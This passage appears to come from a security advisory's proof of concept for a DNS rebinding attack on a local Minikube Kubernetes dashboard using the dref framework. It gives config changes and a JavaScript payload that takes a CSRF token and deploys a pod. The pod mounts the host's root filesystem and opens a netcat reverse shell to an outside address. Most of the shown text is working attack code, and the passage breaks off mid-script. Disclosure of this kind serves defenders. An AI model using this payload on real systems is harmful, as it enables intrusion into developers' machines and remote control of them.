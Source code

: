 ```
drwxr-xr-x    1 1001     1001         128 Mar 30  2018 Public
drwxr-xr-x    1 1001     1001          96 Mar 30  2018 Scripts
drwxr-xr-x    1 1001     1001         128 May 27 21:46 VirtualBox VMs
```

## ## Proof of Concept

This section provides an implementation of the attack using MWR's DNS rebinding exploitation framework [dref](https://github.com/mwrlabs/dref).

To conduct the attack the docker-compose.yml should to be modified to expose 30000/TCP:

```yaml
services:
  api:
    ...
    ports:
      - 0.0.0.0:80:80
      - 0.0.0.0:30000:30000
```

The dref-config.yml should also be modified to create a subdomain pointing to the custom Minikube payload:

```yaml
targets:
  - target: "minikube"
    script: "minikube"
```

Finally, the custom payload should be stored in `dref/scripts/src/payloads/minikube.js`:

```javascript
import NetMap from 'netmap.js'
import * as network from '../libs/network'
import Session from '../libs/session'

// hosts and ports to check for Kubernetes dashboard
const hosts = ['192.168.99.100']
const ports = [30000]

// paths for fetching CSRF token and POSTing the deployment
const tokenPath = '/api/v1/csrftoken/appdeploymentfromfile'
const deployPath = '/api/v1/appdeploymentfromfile'
// payload to deploy
const deployment = `apiVersion: v1
kind: Pod
metadata:
  name: dns-rebind-rce-poc
spec:
  containers:
  - name: busybox
    image: busybox:1.29.2
    command: ["/bin/sh"]
    args: ["-c", "nc 1.2.3.4 4444 -e /bin/sh"]
    volumeMounts:
    - name: host
      mountPath: /host
  volumes:
  - name: host
    hostPath:
      path: /
      type: Directory
`

const session = new Session()
```